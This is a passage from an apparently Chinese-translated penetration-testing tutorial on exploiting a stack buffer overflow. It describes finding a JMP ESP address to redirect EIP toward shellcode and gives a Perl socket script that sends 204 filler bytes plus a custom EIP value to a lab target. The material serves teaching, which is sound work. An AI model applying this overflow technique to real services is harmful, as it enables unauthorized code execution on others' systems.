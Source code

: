 这里的动机是找出跳转到 ESP 寄存器的地址。当我们得到这个位置时，我们可以加载外壳代码以从 ESP 开始。

在找到 JMP ESP 指令后，我们需要记下它对应的地址。这是我们案例中的**77D8AF0A**，如下图所示：

![Calculating the JMP address](img/2223OS_03_32.jpg)

**77D8AF0A**地址是我们需要加载到 EIP 寄存器中的地址。因此，当我们用垃圾数据填充应用程序缓冲区并将此地址加载到 EIP 时，它将指向 ESP 寄存器。接下来，我们将提供外壳代码，以便轻松控制应用程序。

## 检查 EIP

现在让我们通过将自定义值放入 EIP 寄存器来确认 EIP 覆盖。到目前为止，我们知道我们需要 204 字节的垃圾来覆盖 EIP。让我们为 EIP 覆盖创建一个简单的 Perl 脚本：

```
use strict;
use Socket;
my $bufstuff = "\x41" x204;
my $eip  = "\x42\x42\x42\x42";
my $targetaddr = shift || '192.168.75.130';
my $targetport = shift || 200;
my $tcpproto = getprotobyname('tcp');
my $binaryaddr = inet_aton($targetaddr);
my $openaddr = sockaddr_in($targetport, $binaryaddr);
print "[+] Setting and Preparing the Socket\n";
socket(SOCKET, PF_INET, SOCK_STREAM, $tcpproto) or die "socket: $!";
print "[+] Connecting to $targetaddr on port $targetport\n";
connect(SOCKET, $openaddr) or die "connect: $!";
print "[+] Sending Data\n";
print SOCKET $bufstuff. $eip."\n";
print "[+] Data Sent\n";
close SOCKET or die "close: $!";
```

前面的脚本将发送 204 个`A`字符和四个`B`字符。如果 EIP 结果为**4242**，这将意味着它正是我们在 204 字节数据之后提供的。那么，让我们使用**免疫调试器**来检查 EIP：

![Examining the EIP](img/2223OS_03_33.jpg)

很好，我们可以看到 EIP 现在包含四个`B`字符。因此，我们确认缓冲区的确切大小为 204，我们提供的任何东西都直接进入 EIP。
